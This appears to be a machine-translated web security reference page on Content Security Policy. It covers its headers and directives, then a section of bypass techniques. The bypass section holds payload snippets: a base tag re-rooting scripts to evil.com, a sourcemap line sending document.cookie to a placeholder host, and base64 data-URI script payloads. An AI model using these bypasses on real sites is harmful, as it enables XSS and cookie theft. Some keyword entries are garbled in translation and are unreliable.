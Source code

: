 CSP
========================================

What is CSP?
----------------------------------------
Content Security Policy, referred to as CSP, is translated as content security policy. As the name suggests, this specification is related to content security, mainly used to define which resources can be loaded by the current page to reduce the occurrence of XSS.

Configuration
----------------------------------------
CSP policies can be defined through HTTP header information or meta elements.

There are three categories of CSP:

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

HTTP header :
"Content-Security-Policy:" policy
"Content-Security-Policy-Report-Only:" Policy


The HTTP Content-Security-Policy header can specify that one or more resources are secure, while Content-Security-Policy-Report-Only allows the server to check (not enforce) a policy. The policy definition of multiple headers is first defined by priority.

HTML Meta :
::

<meta http-equiv="content-security-policy" content="策略">
<meta http-equiv="content-security-policy-report-only" content="策略">


Instructions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

============    ============
Instructions Description
============    ============
default-src defines the resource default loading policy
connect-src defines loading strategies such as Ajax, WebSocket, etc.
font-src defines Font loading policy
frame-src defines Frame loading policy
img-src defines image loading strategy
media-src defines the reference resource loading strategies such as <audio>, <video>, etc.
object-src defines the reference resource loading strategies such as <applet>, <embed>, <object>, etc.
script-src defines JS loading policy
style-src defines CSS loading policy
base-uri defines the <base> root URL policy, without using default-src as the default value
sandbox value is allow-forms, enable sandbox for resources
The value of report-uri is /report-uri, submit log
============    ============

Keywords
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``-``
- Allow loading from any url except ``data:``````` ``` ``` filesystem:``````````` schemes``
- e.g. ``img-src -``
- ``none``
- Disable loading of resources from any url
- e.g. ``object-src 'none'``
- ``self``
- Only homologous resources can be loaded
- e.g. ``img-src 'self'``
- ``data:``
- Resources can be loaded through the data protocol
- e.g. ``img-src 'self' data:``
- ``domain.example.com``
- e.g. ``img-src domain.example.com``
- Resources can only be loaded from specific domains
- ``\*.example.com``
- e.g. ``img-src \*.example.com``
- Resources can be loaded from any subdomain of example.com
- ``https://cdn.com``
- e.g. ``img-src https://cdn.com``
- Resources can only be loaded with https from a given domain
- ``https:``
- e.g. ``img-src https:``
- Only use https to load resources from any domain
- ``unsafe-inline``
- Allow internal resources to execute code such as style attribute, onclick or sict tags
- e.g. ``script-src 'unsafe-inline'``
- ``unsafe-eval``
- Allow some unsafe code execution methods, such as eval() of js
- e.g. ``script-src 'unsafe-eval'``
- ``nonce-<base64-value>'``
- Use random nonce to allow loading tags with matching tags with nonce attributes on tags
- e.g. ``script-src 'nonce-bm9uY2U='``
-`` <hash-algo>-<base64-Value> '`
- Allows the code block that matches hash values to be executed
- e.g. ``script-src 'sha256-<base64-value>'``

Configuration Example
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Allows execution of inline JS code, but does not allow external resources to be loaded
::

Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
---------------------------------------

Preload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
In order to enhance the user experience and make the browser more efficient, the browser has a preload function, which basically uses the browser's idle time to load the specified content and then cache it. This technology is further subdivided into DNS-prefetch, subresource, prefetch, preconnect, and prerender.

HTML5 page preloading is specified using the rel attribute of the link tag. If the csp header has unsafe-inline, then a request can be made to the outside world by preloading, for example

::

<!-- Preload a page -->
<link rel='prefetch' href='http://xxxx'><!-- firefox -->
<link rel='prerender' href='http://xxxx'><!-- chrome -->
<!-- Preload a picture -->
<link rel='prefetch' href='http://xxxx/x.jpg'>
<!-- DNS pre-resolution -->
<link rel="dns-prefetch" href="http://xxxx">
<!-- Preload for specific file types -->
<link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

In addition, not all pages can be preloaded, and when the resource type is as follows, the preload operation will be blocked:

- The URL contains download resources
- The page contains audio and video
- Ajax requests for POST, PUT and DELET operations
- HTTP authentication
- HTTPS page
- Pages containing malware
- Pop-up page
- Pages that take up a lot of resources
- The Chrome developer tools development tool has been opened

MIME Sniff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
For example, csp prohibits cross-site reading of scripts, but can read imgs across sites. Then pass an img with scripts and then ``<script href='http://xxx.com/xx.jpg'>`` , here csp thinks it is an img, bypassing the check. If the website does not return the correct mime type, the browser will make a guess, and the img may be loaded as a script.

302 jump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
For 302 jump bypass CSP, there are actually the following restrictions:

- The springboard must be within the allowed domain.
- The host part of the file to be loaded must be consistent with the host part of the allowed domain

iframe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
When you can execute code, you can create a frame with a static file such as ``css```js`. When the configuration is not configured, the frame does not exist in csp. Then create the frame again under the frame to reach bypass purpose. Similarly, using links such as ``../../../````/%2e%2e%2f`` that may trigger the server error can also achieve the corresponding purpose.

Bases
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
When script-src is nonce or unlimited, and base-uri is unlimited, you can modify the root URL through the ``base`` tag to bypass, as follows: http://evil.com/main.js

::

<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>

other
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- location Bypass
- When uploading SVG, bypassing homologous sites through malicious SVG
- When there is a CRLF vulnerability and the controllable point is above the CSP, it can inject HTTP response to affect CSP resolution
- CND Bypass, if the website trusts a CDN, then the static resource of the corresponding CDN can be used bypass
- Angular versions <1.5.9 >=1.5.0, vulnerability `Git Pull Request <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap
::

document.write(`<script>
//@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- ping properties of a tag
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />``
- Only restrict ``script-src`` when:
- ``<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>``
